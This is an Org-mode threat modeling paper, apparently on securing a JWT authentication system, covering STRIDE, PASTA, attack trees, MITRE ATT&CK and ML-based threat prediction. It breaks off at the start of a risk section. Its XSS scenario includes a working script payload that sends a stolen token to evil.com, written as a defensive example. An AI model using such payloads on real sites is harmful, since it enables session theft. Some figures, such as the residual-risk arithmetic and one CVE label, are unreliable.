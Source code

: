 #+TITLE: Security Threat Modeling: A Comprehensive Academic Analysis
#+AUTHOR: Semantest Security Research Institute
#+DATE: 2025-07-14
#+OPTIONS: toc:4 num:t H:5 ^:nil
#+LATEX_CLASS: article
#+LATEX_HEADER: \usepackage{algorithm2e}
#+LATEX_HEADER: \usepackage{amsmath}
#+LATEX_HEADER: \usepackage{tikz}

* Abstract

This document presents a rigorous academic examination of security threat modeling approaches, with particular emphasis on formal methodologies, mathematical foundations, and practical applications in modern software systems. We explore the evolution from ad-hoc security analysis to systematic threat modeling frameworks, examine cutting-edge techniques including automated threat generation and machine learning-based risk assessment, and demonstrate practical application through the Semantest authentication system case study.

* Table of Contents :TOC:
- [[#abstract][Abstract]]
- [[#introduction-and-theoretical-foundations][Introduction and Theoretical Foundations]]
- [[#historical-evolution-of-threat-modeling][Historical Evolution of Threat Modeling]]
- [[#formal-mathematical-models][Formal Mathematical Models]]
- [[#threat-modeling-methodologies][Threat Modeling Methodologies]]
- [[#advanced-threat-analysis-techniques][Advanced Threat Analysis Techniques]]
- [[#practical-application-semantest-case-study][Practical Application: Semantest Case Study]]
- [[#automated-and-ai-driven-threat-modeling][Automated and AI-Driven Threat Modeling]]
- [[#quantitative-risk-assessment][Quantitative Risk Assessment]]
- [[#threat-modeling-in-devops-and-ci-cd][Threat Modeling in DevOps and CI/CD]]
- [[#future-directions-and-research-frontiers][Future Directions and Research Frontiers]]
- [[#conclusion][Conclusion]]
- [[#references][References]]

* Introduction and Theoretical Foundations

** Definition and Scope

Threat modeling is a systematic approach to identifying, communicating, and understanding threats and mitigations within the context of protecting something of value. In the domain of software security, it represents the intersection of:

1. **System Theory**: Understanding component interactions
2. **Game Theory**: Adversarial modeling
3. **Risk Theory**: Probability and impact assessment
4. **Information Theory**: Data flow and trust boundaries

** Formal Definition

Let us define a threat model formally:

#+BEGIN_QUOTE
A threat model TM is a tuple (S, A, T, V, M) where:
- S = {s₁, s₂, ..., sₙ} is the system under consideration
- A = {a₁, a₂, ..., aₘ} is the set of potential adversaries
- T = {t₁, t₂, ..., tₖ} is the set of identified threats
- V = {v₁, v₂, ..., vₗ} is the set of vulnerabilities
- M = {m₁, m₂, ..., mₚ} is the set of mitigations

With mappings:
- threatens: A × V → T (adversaries exploit vulnerabilities to create threats)
- mitigates: M → P(T) (mitigations address sets of threats)
- impacts: T → ℝ⁺ (quantified impact of threats)
#+END_QUOTE

** Core Principles

1. **Completeness**: ∀v ∈ V, ∃t ∈ T : threatens(_, v) = t
2. **Coverage**: ∀t ∈ T, ∃m ∈ M : t ∈ mitigates(m)
3. **Efficiency**: minimize |M| while maintaining coverage
4. **Adaptability**: TM must evolve with S

* Historical Evolution of Threat Modeling

** Timeline and Paradigm Shifts

#+BEGIN_SRC mermaid
gantt
    title Evolution of Threat Modeling Approaches
    dateFormat YYYY
    axisFormat %Y
    
    section Early Era
    Ad-hoc Security Reviews          :1970, 1985
    Penetration Testing             :1975, 1990
    
    section Structured Era
    Attack Trees (Schneier)         :1990, 2000
    STRIDE (Microsoft)              :1999, 2025
    DREAD Risk Rating               :2002, 2015
    
    section Modern Era
    PASTA                           :2012, 2025
    LINDDUN (Privacy)              :2014, 2025
    Automated Threat Modeling       :2018, 2025
    AI-Driven Analysis             :2020, 2025
#+END_SRC

** Theoretical Lineage

1. **1960s-1970s**: Military threat assessment models
   - RAND Corporation strategic analysis
   - Game-theoretic foundations (von Neumann)

2. **1980s-1990s**: Computer security emergence
   - Bell-LaPadula Model (confidentiality)
   - Clark-Wilson Model (integrity)
   - Attack trees (Bruce Schneier)

3. **2000s-2010s**: Structured methodologies
   - Microsoft's STRIDE/DREAD
   - OCTAVE (CMU)
   - TRIKE

4. **2020s**: AI and automation
   - ML-based threat prediction
   - Automated attack graph generation
   - Quantum threat modeling

* Formal Mathematical Models

** Attack Trees and Graphs

*** Definition
An attack tree AT is a directed acyclic graph (DAG) where:
- Root node: Ultimate attacker goal
- Leaf nodes: Atomic attack steps
- Internal nodes: AND/OR logical operators

*** Formal Representation

#+BEGIN_SRC latex
AT = (N, E, τ, λ) where:
- N = set of nodes
- E ⊆ N × N = edges
- τ: N → {AND, OR, LEAF} = node types
- λ: N → ℝ⁺ = cost/probability function

Attack feasibility:
F(n) = {
  λ(n)                    if τ(n) = LEAF
  ∏ᵢ F(childᵢ(n))        if τ(n) = AND
  min_i F(childᵢ(n))      if τ(n) = OR
}
#+END_SRC

*** Visual Example: JWT Token Theft

#+BEGIN_SRC dot
digraph AttackTree {
    rankdir=TB;
    node [shape=rectangle];
    
    goal [label="Steal JWT Token" shape=ellipse style=filled fillcolor=red];
    
    or1 [label="OR" shape=diamond];
    goal -> or1;
    
    xss [label="XSS Attack\nCost: 30\nProb: 0.3"];
    mitm [label="MITM Attack\nCost: 50\nProb: 0.2"];
    malware [label="Client Malware\nCost: 40\nProb: 0.25"];
    insider [label="Insider Threat\nCost: 10\nProb: 0.1"];
    
    or1 -> xss;
    or1 -> mitm;
    or1 -> malware;
    or1 -> insider;
    
    and1 [label="AND" shape=diamond];
    xss -> and1;
    
    vuln [label="Find XSS Vuln\nCost: 20\nProb: 0.4"];
    payload [label="Craft Payload\nCost: 10\nProb: 0.75"];
    
    and1 -> vuln;
    and1 -> payload;
}
#+END_SRC

** Markov Decision Process (MDP) Models

For dynamic threat modeling, we use MDPs:

#+BEGIN_SRC latex
MDP = (S, A, P, R, γ) where:
- S = state space (system configurations)
- A = action space (attacker actions)
- P: S × A × S → [0,1] = transition probabilities
- R: S × A → ℝ = reward function (attacker's perspective)
- γ ∈ [0,1] = discount factor

Optimal attack policy:
π* = argmax_π E[∑ᵗ γᵗR(sₜ, π(sₜ))]
#+END_SRC

** Petri Net Security Models

For concurrent system analysis:

#+BEGIN_SRC python
class SecurityPetriNet:
    def __init__(self):
        self.places = {
            'user_authenticated': 0,
            'token_valid': 0,
            'ip_bound': 0,
            'request_authorized': 0
        }
        self.transitions = {
            'authenticate': {
                'input': [],
                'output': ['user_authenticated', 'token_valid', 'ip_bound']
            },
            'validate_request': {
                'input': ['token_valid', 'ip_bound'],
                'output': ['request_authorized']
            },
            'token_stolen': {
                'input': ['token_valid'],
                'output': [],
                'threat': True
            }
        }
#+END_SRC

* Threat Modeling Methodologies

** STRIDE (Microsoft)

*** Theoretical Foundation
STRIDE maps threat categories to security properties:

| Threat | Property Violated | Formal Definition |
|--------|------------------|-------------------|
| Spoofing | Authentication | ∃a ∈ A : claims(a, id) ∧ id ≠ identity(a) |
| Tampering | Integrity | ∃d ∈ Data : modified(d) ∧ ¬authorized(modifier(d)) |
| Repudiation | Non-repudiation | ∃action : occurred(action) ∧ ¬provable(action) |
| Information Disclosure | Confidentiality | ∃d ∈ Secret : readable(d, unauthorized) |
| Denial of Service | Availability | ∃s ∈ Service : ¬available(s) ∧ required(s) |
| Elevation of Privilege | Authorization | ∃a ∈ A : has_privilege(a, p) ∧ p ∉ authorized(a) |

*** Application to JWT Implementation

#+BEGIN_SRC typescript
// STRIDE Analysis for JWT Security Enhancements
interface STRIDEAnalysis {
  spoofing: {
    threat: "Attacker impersonates legitimate user",
    mitigation: "RS256 signatures with 2048-bit keys",
    implementation: "jwt.sign(payload, PRIVATE_KEY, {algorithm: 'RS256'})",
    residual_risk: "Key compromise"
  },
  
  tampering: {
    threat: "Token payload modification",
    mitigation: "Cryptographic signatures",
    verification: "jwt.verify(token, PUBLIC_KEY)",
    residual_risk: "Quantum computing threat"
  },
  
  repudiation: {
    threat: "User denies action",
    mitigation: "Comprehensive audit logging",
    implementation: "SecurityAuditLogger",
    residual_risk: "Log tampering"
  },
  
  information_disclosure: {
    threat: "Token contains sensitive data",
    mitigation: "Minimal claims + IP hashing",
    implementation: "hashIP(clientIP)",
    residual_risk: "Token interception"
  },
  
  denial_of_service: {
    threat: "Token validation overwhelming",
    mitigation: "Caching + rate limiting",
    implementation: "LRUCache + express-rate-limit",
    residual_risk: "Distributed attacks"
  },
  
  elevation_of_privilege: {
    threat: "Role manipulation",
    mitigation: "Server-side role validation",
    implementation: "tokenManager.verifyRoles()",
    residual_risk: "Logic flaws"
  }
}
#+END_SRC

** PASTA (Process for Attack Simulation and Threat Analysis)

*** Seven-Stage Process

#+BEGIN_SRC mermaid
graph TB
    subgraph "Stage 1: Define Objectives"
        BO[Business Objectives]
        SO[Security Objectives]
        BO --> SO
    end
    
    subgraph "Stage 2: Define Technical Scope"
        ARCH[Architecture Analysis]
        DEPS[Dependencies]
        ARCH --> DEPS
    end
    
    subgraph "Stage 3: Application Decomposition"
        DFD[Data Flow Diagrams]
        TB[Trust Boundaries]
        DFD --> TB
    end
    
    subgraph "Stage 4: Threat Analysis"
        TI[Threat Intelligence]
        TA[Threat Actors]
        TI --> TA
    end
    
    subgraph "Stage 5: Vulnerability Analysis"
        VA[Vuln Assessment]
        WF[Weakness Correlation]
        VA --> WF
    end
    
    subgraph "Stage 6: Attack Modeling"
        AT[Attack Trees]
        AS[Attack Scenarios]
        AT --> AS
    end
    
    subgraph "Stage 7: Risk/Impact Analysis"
        RA[Risk Assessment]
        CM[Countermeasures]
        RA --> CM
    end
    
    SO --> ARCH
    DEPS --> DFD
    TB --> TI
    TA --> VA
    WF --> AT
    AS --> RA
#+END_SRC

*** Semantest Application

#+BEGIN_SRC yaml
pasta_application:
  stage1_objectives:
    business:
      - Secure multi-platform authentication
      - Protect user session integrity
      - Maintain service availability
    security:
      - Prevent token theft/replay
      - Ensure data confidentiality
      - Maintain audit trail
      
  stage2_technical_scope:
    components:
      - Node.js server
      - JWT tokens
      - Redis session store
      - WebSocket connections
    boundaries:
      - Internet ↔ Server
      - Server ↔ Redis
      - Server ↔ Database
      
  stage3_decomposition:
    data_flows:
      - User → Login → JWT Generation
      - JWT → Validation → Authorization
      - Token → Blacklist Check → Decision
    trust_boundaries:
      - Client (Untrusted)
      - DMZ (Semi-trusted)
      - Internal (Trusted)
      
  stage4_threats:
    actors:
      - Script Kiddies (Low skill, opportunistic)
      - Hacktivists (Medium skill, ideological)
      - Organized Crime (High skill, financial)
      - Nation State (Expert skill, strategic)
    intelligence:
      - OWASP Top 10
      - CVE database
      - Threat feeds
      
  stage5_vulnerabilities:
    identified:
      - JWT secret exposure
      - Session fixation
      - CSRF attacks
      - XSS token theft
    correlation:
      - CVE-2022-JWT → Our implementation
      - CWE-352 → CSRF middleware
      
  stage6_attack_modeling:
    scenarios:
      - Token theft via XSS
      - Session hijacking
      - Replay attacks
      - Privilege escalation
    trees:
      - See formal attack tree above
      
  stage7_risk_analysis:
    high_risk:
      - Token theft: Impact 5/5, Likelihood 3/5
      - Account takeover: Impact 5/5, Likelihood 2/5
    countermeasures:
      - IP binding (implemented)
      - Device fingerprinting (implemented)
      - Anomaly detection (implemented)
#+END_SRC

** LINDDUN (Privacy Threat Modeling)

For privacy-focused analysis:

1. **Linkability**: Connecting user actions
2. **Identifiability**: Discovering user identity
3. **Non-repudiation**: Cannot deny actions
4. **Detectability**: Revealing data existence
5. **Disclosure**: Information exposure
6. **Unawareness**: Lack of user knowledge
7. **Non-compliance**: Regulatory violations

* Advanced Threat Analysis Techniques

** Kill Chain Analysis

Based on Lockheed Martin's Cyber Kill Chain:

#+BEGIN_SRC mermaid
graph LR
    subgraph "Attacker Kill Chain"
        R[Reconnaissance] --> W[Weaponization]
        W --> D[Delivery]
        D --> E[Exploitation]
        E --> I[Installation]
        I --> C[Command & Control]
        C --> A[Actions on Objectives]
    end
    
    subgraph "Defensive Measures"
        R --> DR[IP Monitoring]
        W --> DW[Input Validation]
        D --> DD[Email Filtering]
        E --> DE[Patch Management]
        I --> DI[Endpoint Detection]
        C --> DC[Network Monitoring]
        A --> DA[Data Loss Prevention]
    end
    
    style R fill:#ff9999
    style A fill:#ff6666
#+END_SRC

** MITRE ATT&CK Framework Application

#+BEGIN_SRC python
class MITREAttackAnalysis:
    def __init__(self):
        self.tactics = {
            'initial_access': ['Valid Accounts', 'Phishing'],
            'execution': ['Command Line Interface', 'Scripting'],
            'persistence': ['Account Manipulation', 'Web Shell'],
            'privilege_escalation': ['Access Token Manipulation'],
            'defense_evasion': ['Obfuscated Files', 'Indicator Removal'],
            'credential_access': ['Brute Force', 'Input Capture'],
            'discovery': ['Account Discovery', 'System Information Discovery'],
            'lateral_movement': ['Pass the Ticket', 'Remote Services'],
            'collection': ['Data from Local System', 'Input Capture'],
            'exfiltration': ['Exfiltration Over C2 Channel'],
            'impact': ['Data Destruction', 'Service Stop']
        }
        
    def map_threat_to_technique(self, threat):
        """Map identified threats to MITRE techniques"""
        mappings = {
            'token_theft': [
                ('credential_access', 'Input Capture'),
                ('collection', 'Data from Local System')
            ],
            'session_hijacking': [
                ('credential_access', 'Session Cookie Theft'),
                ('lateral_movement', 'Pass the Ticket')
            ],
            'privilege_escalation': [
                ('privilege_escalation', 'Access Token Manipulation'),
                ('persistence', 'Account Manipulation')
            ]
        }
        return mappings.get(threat, [])
    
    def generate_detection_rules(self, technique):
        """Generate detection rules for techniques"""
        rules = {
            'Input Capture': {
                'sigma_rule': '''
                    title: Potential Token Theft via Input Capture
                    logsource:
                        product: webapp
                        service: authentication
                    detection:
                        selection:
                            event_type: 'auth_failure'
                            failure_count: '>5'
                        timeframe: 5m
                    condition: selection
                ''',
                'implementation': 'rate_limiter.check()'
            }
        }
        return rules.get(technique, {})
#+END_SRC

** Bayesian Threat Probability

Using Bayesian networks for threat probability:

#+BEGIN_SRC python
import numpy as np
from pgmpy.models import BayesianNetwork
from pgmpy.inference import VariableElimination

class BayesianThreatModel:
    def __init__(self):
        # Define network structure
        self.model = BayesianNetwork([
            ('vulnerable_component', 'exploitable'),
            ('attacker_capability', 'exploit_success'),
            ('exploitable', 'exploit_success'),
            ('exploit_success', 'token_compromised'),
            ('security_controls', 'token_compromised')
        ])
        
        # Define conditional probability distributions
        self.cpds = {
            'vulnerable_component': [0.1, 0.9],  # P(vulnerable)
            'attacker_capability': [0.7, 0.2, 0.1],  # Low, Medium, High
            'security_controls': [0.2, 0.8],  # P(bypassed)
            'exploitable': {
                # P(exploitable | vulnerable)
                True: [0.8, 0.2],
                False: [0.05, 0.95]
            },
            'exploit_success': {
                # P(success | exploitable, capability)
                (True, 'High'): [0.9, 0.1],
                (True, 'Medium'): [0.6, 0.4],
                (True, 'Low'): [0.3, 0.7],
                (False, 'High'): [0.2, 0.8],
                (False, 'Medium'): [0.05, 0.95],
                (False, 'Low'): [0.01, 0.99]
            }
        }
        
    def calculate_threat_probability(self, evidence):
        """Calculate P(threat | evidence)"""
        inference = VariableElimination(self.model)
        result = inference.query(
            variables=['token_compromised'],
            evidence=evidence
        )
        return result.values[1]  # P(compromised = True)
#+END_SRC

* Practical Application: Semantest Case Study

** System Architecture Threat Model

#+BEGIN_SRC mermaid
graph TB
    subgraph "External Zone"
        USER[User Browser]
        ATTACKER[Attacker]
    end
    
    subgraph "DMZ"
        LB[Load Balancer]
        WAF[Web Application Firewall]
    end
    
    subgraph "Application Zone"
        WEB[Node.js Server]
        AUTH[Auth Service]
        JWT[JWT Manager]
    end
    
    subgraph "Data Zone"
        REDIS[(Redis Cache)]
        DB[(PostgreSQL)]
        LOGS[(Security Logs)]
    end
    
    USER -->|HTTPS| LB
    ATTACKER -.->|Attack Vectors| LB
    LB --> WAF
    WAF --> WEB
    WEB --> AUTH
    AUTH --> JWT
    JWT --> REDIS
    AUTH --> DB
    JWT --> LOGS
    
    style ATTACKER fill:#ff0000
    style USER fill:#00ff00
#+END_SRC

** Threat Enumeration Matrix

| Component | STRIDE Category | Specific Threat | Likelihood | Impact | Risk Score | Mitigation |
|-----------|----------------|-----------------|------------|--------|------------|------------|
| JWT Token | Spoofing | Token forgery | Low | High | 6 | RS256 signatures |
| JWT Token | Tampering | Payload modification | Low | High | 6 | Signature verification |
| JWT Token | Information Disclosure | Sensitive data in claims | Medium | Medium | 6 | Minimal claims principle |
| Session | Spoofing | Session hijacking | Medium | High | 8 | IP binding |
| API | Denial of Service | Resource exhaustion | High | Medium | 8 | Rate limiting |
| Logs | Repudiation | Log tampering | Low | High | 6 | Write-only logs |
| Auth | Elevation of Privilege | Role escalation | Low | Critical | 8 | Server-side validation |

** Data Flow Diagram with Trust Boundaries

#+BEGIN_SRC dot
digraph DataFlow {
    rankdir=LR;
    compound=true;
    
    subgraph cluster_untrusted {
        label="Untrusted Zone";
        style=filled;
        fillcolor=pink;
        
        Client [label="Web Client"];
        Attacker [label="Attacker" color=red];
    }
    
    subgraph cluster_dmz {
        label="DMZ (Semi-trusted)";
        style=filled;
        fillcolor=lightyellow;
        
        Firewall [label="WAF/Firewall"];
        LoadBalancer [label="Load Balancer"];
    }
    
    subgraph cluster_trusted {
        label="Trusted Zone";
        style=filled;
        fillcolor=lightgreen;
        
        Server [label="Node.js Server"];
        Auth [label="Auth Service"];
        TokenMgr [label="Token Manager"];
        Redis [label="Redis Cache"];
    }
    
    Client -> Firewall [label="HTTPS Request"];
    Attacker -> Firewall [label="Attack" color=red style=dashed];
    Firewall -> LoadBalancer [label="Filtered"];
    LoadBalancer -> Server [label="Distributed"];
    Server -> Auth [label="Validate"];
    Auth -> TokenMgr [label="Verify Token"];
    TokenMgr -> Redis [label="Check Blacklist"];
    
    edge [color=blue, style=dashed];
    Redis -> TokenMgr [label="Valid/Invalid"];
    TokenMgr -> Auth [label="User Context"];
    Auth -> Server [label="Authorized"];
    Server -> LoadBalancer [label="Response"];
    LoadBalancer -> Firewall [label="Return"];
    Firewall -> Client [label="Final Response"];
}
#+END_SRC

** Threat Scenarios and Mitigations

*** Scenario 1: Cross-Site Scripting (XSS) Token Theft

#+BEGIN_SRC typescript
// Threat Model
interface XSSTokenTheftScenario {
  attack_vector: {
    entry_point: "Unescaped user input in comments";
    payload: "<script>fetch('/api/token').then(r=>r.text()).then(t=>fetch('https://evil.com',{method:'POST',body:t}))</script>";
    success_criteria: "Token exfiltrated to attacker server";
  };
  
  impact_analysis: {
    confidentiality: "HIGH - Token exposed";
    integrity: "MEDIUM - Session compromise";
    availability: "LOW - Individual user affected";
  };
  
  existing_mitigations: {
    csp: {
      implementation: "Content-Security-Policy: default-src 'self'",
      effectiveness: 0.8
    },
    httpOnly_cookies: {
      implementation: "Set-Cookie: token=...; HttpOnly",
      effectiveness: 0.9
    },
    input_sanitization: {
      implementation: "DOMPurify.sanitize(userInput)",
      effectiveness: 0.85
    }
  };
  
  residual_risk: {
    score: 2.5, // (1 - 0.8) * (1 - 0.9) * (1 - 0.85) * 100
    additional_controls: [
      "Subresource Integrity (SRI)",
      "Token binding to origin",
      "Short token lifetime"
    ]
  };
}
#+END_SRC

*** Scenario 2: Man-in-the-Middle (MITM) Attack

#+BEGIN_SRC yaml
mitm_threat_model:
  attack_chain:
    1_position: "Attacker on same network (coffee shop WiFi)"
    2_intercept: "ARP spoofing to redirect traffic"
    3_decrypt: "SSL strip or downgrade attack"
    4_capture: "Capture authentication tokens"
    5_replay: "Use tokens from different location"
    
  probability_calculation:
    P_position: 0.3  # User on public WiFi
    P_intercept: 0.7  # Given position, successful ARP spoof
    P_decrypt: 0.2   # HSTS and modern browsers
    P_capture: 0.9   # Given decryption
    P_replay: 0.1    # IP binding prevents replay
    
    total_probability: 0.00378  # Product of all
    
  mitigations_effectiveness:
    hsts:
      header: "Strict-Transport-Security: max-age=31536000; includeSubDomains; preload"
      reduces_P_decrypt_to: 0.05
      
    certificate_pinning:
      implementation: "Pin-SHA256='...'"
      reduces_P_decrypt_to: 0.02
      
    ip_binding:
      implementation: "token.ip === request.ip"
      reduces_P_replay_to: 0.01
      
    vpn_recommendation:
      user_guidance: "Always use VPN on public WiFi"
      reduces_P_position_to: 0.05
#+END_SRC

*** Scenario 3: Distributed Denial of Service (DDoS)

#+BEGIN_SRC python
class DDoSThreatModel:
    def __init__(self):
        self.attack_vectors = {
            'volumetric': {
                'bandwidth_saturation': '100 Gbps flood',
                'mitigation': 'CDN + DDoS protection service'
            },
            'protocol': {
                'syn_flood': 'TCP SYN flood',
                'mitigation': 'SYN cookies + rate limiting'
            },
            'application': {
                'jwt_validation_flood': 'Expensive crypto operations',
                'mitigation': 'Token caching + rate limiting'
            }
        }
        
    def calculate_service_degradation(self, attack_rate, capacity):
        """
        Model service degradation under DDoS
        Using M/M/c/K queue theory
        """
        import math
        
        λ = attack_rate  # Arrival rate
        μ = capacity     # Service rate
        c = 10           # Number of servers
        K = 1000         # Queue capacity
        
        # Calculate blocking probability (Erlang-C formula)
        ρ = λ / (c * μ)
        
        if ρ >= 1:
            return 1.0  # Complete service failure
        
        # Erlang C calculation
        sum_term = sum((c * ρ)**n / math.factorial(n) for n in range(c))
        pc = (c * ρ)**c / (math.factorial(c) * (1 - ρ))
        p0 = 1 / (sum_term + pc)
        
        blocking_prob = pc * p0
        return blocking_prob
    
    def defense_in_depth_strategy(self):
        return {
            'layer_1': {
                'defense': 'CloudFlare DDoS Protection',
                'capacity': '100 Gbps',
                'cost': '$200/month'
            },
            'layer_2': {
                'defense': 'AWS Shield + WAF',
                'rules': ['Rate limiting', 'Geo-blocking', 'Bot detection'],
                'cost': '$3000/month'
            },
            'layer_3': {
                'defense': 'Application-level defenses',
                'implementation': '''
                    // Redis-based rate limiting
                    const rateLimiter = new RateLimiterRedis({
                        storeClient: redisClient,
                        keyPrefix: 'rl',
                        points: 100,      // requests
                        duration: 60,     // per minute
                        blockDuration: 600 // block for 10 min
                    });
                    
                    // Token validation caching
                    const tokenCache = new LRU({
                        max: 10000,
                        ttl: 1000 * 60 * 5 // 5 minutes
                    });
                '''
            }
        }
#+END_SRC

* Automated and AI-Driven Threat Modeling

** Machine Learning for Threat Prediction

#+BEGIN_SRC python
import tensorflow as tf
from sklearn.preprocessing import StandardScaler
import numpy as np

class MLThreatPredictor:
    def __init__(self):
        self.model = self.build_model()
        self.scaler = StandardScaler()
        
    def build_model(self):
        """Neural network for threat prediction"""
        model = tf.keras.Sequential([
            tf.keras.layers.Dense(128, activation='relu', input_shape=(15,)),
            tf.keras.layers.Dropout(0.3),
            tf.keras.layers.Dense(64, activation='relu'),
            tf.keras.layers.Dropout(0.3),
            tf.keras.layers.Dense(32, activation='relu'),
            tf.keras.layers.Dense(5, activation='softmax')  # 5 threat categories
        ])
        
        model.compile(
            optimizer='adam',
            loss='categorical_crossentropy',
            metrics=['accuracy', 'precision', 'recall']
        )
        
        return model
    
    def extract_features(self, system_state):
        """Extract features for threat prediction"""
        features = [
            system_state['failed_login_rate'],
            system_state['unique_ips_per_user'],
            system_state['request_rate'],
            system_state['error_rate'],
            system_state['new_user_registrations'],
            system_state['unusual_endpoints_accessed'],
            system_state['large_data_transfers'],
            system_state['off_hours_activity'],
            system_state['geographic_anomaly_score'],
            system_state['user_agent_diversity'],
            system_state['token_refresh_rate'],
            system_state['api_version_spread'],
            system_state['response_time_variance'],
            system_state['concurrent_sessions'],
            system_state['privilege_escalation_attempts']
        ]
        return np.array(features).reshape(1, -1)
    
    def predict_threat(self, system_state):
        """Predict threat category and probability"""
        features = self.extract_features(system_state)
        features_scaled = self.scaler.transform(features)
        
        predictions = self.model.predict(features_scaled)[0]
        
        threat_categories = [
            'Normal',
            'Reconnaissance',
            'Exploitation Attempt',
            'Active Attack',
            'Data Exfiltration'
        ]
        
        return {
            cat: float(prob) 
            for cat, prob in zip(threat_categories, predictions)
        }
    
    def explain_prediction(self, system_state):
        """SHAP-based explanation of threat prediction"""
        import shap
        
        features = self.extract_features(system_state)
        explainer = shap.DeepExplainer(self.model, self.training_data)
        shap_values = explainer.shap_values(features)
        
        feature_importance = {
            'failed_login_rate': shap_values[0][0],
            'unique_ips_per_user': shap_values[0][1],
            # ... etc
        }
        
        return feature_importance
#+END_SRC

** Automated Threat Model Generation

#+BEGIN_SRC python
class AutomatedThreatModeler:
    def __init__(self, codebase_path):
        self.codebase = codebase_path
        self.ast_analyzer = ASTAnalyzer()
        self.flow_analyzer = DataFlowAnalyzer()
        self.threat_db = ThreatDatabase()
        
    def generate_threat_model(self):
        """Automatically generate threat model from code"""
        
        # 1. Parse codebase and extract components
        components = self.ast_analyzer.extract_components(self.codebase)
        
        # 2. Analyze data flows
        data_flows = self.flow_analyzer.analyze_flows(components)
        
        # 3. Identify trust boundaries
        trust_boundaries = self.identify_trust_boundaries(data_flows)
        
        # 4. Map to threat patterns
        threats = []
        for boundary in trust_boundaries:
            applicable_threats = self.threat_db.get_threats_for_boundary(boundary)
            threats.extend(applicable_threats)
        
        # 5. Generate attack trees
        attack_trees = self.generate_attack_trees(threats, components)
        
        # 6. Calculate risk scores
        risk_scores = self.calculate_risk_scores(attack_trees)
        
        return {
            'components': components,
            'data_flows': data_flows,
            'trust_boundaries': trust_boundaries,
            'threats': threats,
            'attack_trees': attack_trees,
            'risk_scores': risk_scores,
            'recommended_mitigations': self.recommend_mitigations(threats)
        }
    
    def identify_trust_boundaries(self, data_flows):
        """Identify trust boundaries in the system"""
        boundaries = []
        
        for flow in data_flows:
            if self.crosses_trust_boundary(flow):
                boundaries.append({
                    'type': self.classify_boundary(flow),
                    'source': flow.source,
                    'destination': flow.destination,
                    'data_type': flow.data_type,
                    'protocols': flow.protocols
                })
        
        return boundaries
    
    def generate_attack_trees(self, threats, components):
        """Generate attack trees for identified threats"""
        trees = {}
        
        for threat in threats:
            # Find attack paths
            paths = self.find_attack_paths(threat, components)
            
            # Build tree structure
            tree = AttackTree(goal=threat.description)
            for path in paths:
                tree.add_path(path)
            
            # Calculate metrics
            tree.calculate_probability()
            tree.calculate_cost()
            tree.calculate_skill_required()
            
            trees[threat.id] = tree
        
        return trees
#+END_SRC

** Continuous Threat Modeling in CI/CD

#+BEGIN_SRC yaml
# .github/workflows/threat-modeling.yml
name: Automated Threat Modeling

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  threat-model:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Setup Threat Modeling Tools
      run: |
        pip install pytm threat-dragon
        npm install -g @threatdragon/cli
        
    - name: Generate Threat Model
      run: |
        python scripts/generate_threat_model.py \
          --source ./src \
          --output ./threat-model.json
          
    - name: Run STRIDE Analysis
      run: |
        threat-dragon analyze \
          --model ./threat-model.json \
          --methodology STRIDE \
          --output ./stride-analysis.json
          
    - name: Check Security Policies
      run: |
        python scripts/check_security_policies.py \
          --threats ./stride-analysis.json \
          --policies ./security-policies.yaml \
          --fail-on high
          
    - name: Generate Attack Trees
      run: |
        python scripts/generate_attack_trees.py \
          --threats ./stride-analysis.json \
          --components ./component-map.json \
          --output ./attack-trees/
          
    - name: Calculate Risk Scores
      run: |
        python scripts/calculate_risks.py \
          --attack-trees ./attack-trees/ \
          --likelihood-data ./threat-intelligence.json \
          --output ./risk-assessment.json
          
    - name: Update Threat Model Documentation
      if: github.ref == 'refs/heads/main'
      run: |
        python scripts/update_threat_docs.py \
          --model ./threat-model.json \
          --risks ./risk-assessment.json \
          --output ./docs/threat-model.md
          
    - name: Comment PR with Threats
      if: github.event_name == 'pull_request'
      uses: actions/github-script@v6
      with:
        script: |
          const threats = require('./stride-analysis.json');
          const highRiskThreats = threats.filter(t => t.risk === 'HIGH');
          
          if (highRiskThreats.length > 0) {
            const comment = `## 🚨 Security Threat Analysis
            
            Found ${highRiskThreats.length} high-risk threats:
            
            ${highRiskThreats.map(t => `- **${t.category}**: ${t.description}`).join('\n')}
            
            Please address these before merging.`;
            
            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: comment
            });
          }
#+END_SRC

* Quantitative Risk Assessment

** Risk Calculation Framework

#+BEGIN_SRC latex
